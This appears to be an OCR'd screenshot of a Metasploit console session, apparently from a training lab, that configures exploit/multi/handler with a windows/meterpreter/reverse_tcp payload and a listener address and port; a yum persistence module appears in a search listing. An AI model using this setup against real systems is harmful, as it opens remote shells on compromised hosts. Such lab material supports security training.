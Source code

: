    18  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence


Interact with a module by name or index. For example info 18, use 18 or use exploit/linux/local/yum_package_manager_persistence                                                                                             

msf6 > use 5
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.143.22
LHOST => 10.10.143.22
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.143.22     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

